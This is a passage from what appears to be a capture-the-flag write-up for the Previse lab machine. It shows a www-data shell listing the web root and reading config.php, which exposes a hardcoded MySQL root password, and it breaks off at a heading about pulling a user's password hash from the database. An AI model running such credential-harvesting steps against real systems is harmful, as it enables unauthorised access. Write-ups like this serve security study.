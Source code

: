 # Privilege escalation to m4lwhere user
## Reading contents of config.php
Reading contents of config.php found sql database username and password.
```bash
www-data@previse:/var/www/html$ ls
ls
caccounts.php               download.php       footer.php  logs.php
android-chrome-192x192.png  favicon-16x16.png  header.php  nav.php
android-chrome-512x512.png  favicon-32x32.png  index.php   site.webmanifest
apple-touch-icon.png        favicon.ico        js          status.php
config.php                  file_logs.php      login.php
css                         files.php          logout.php
www-data@previse:/var/www/html$cat config.php
cat config.php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
www-data@previse:/var/www/html$
```
## Reading contents of sql database got hashed password of m4lwhere user
